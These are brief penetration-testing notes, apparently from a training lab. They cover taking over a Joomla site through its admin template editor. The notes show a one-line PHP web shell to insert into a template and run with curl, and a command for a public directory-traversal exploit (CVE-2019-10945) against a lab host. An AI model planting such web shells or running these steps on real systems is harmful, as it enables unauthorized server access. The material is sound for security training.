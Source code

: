 Go to Configuration -> Templates -> protostar -> Templates: Customise page

then we choose a php file 
add in the PHP shell
```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

save and close and then execute it using curl 


Check for known CVEs also


Example: Directory Traversal Vulnerability
https://github.com/dpgg101/CVE-2019-10945

```
python3 CVE-2019-10945.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
```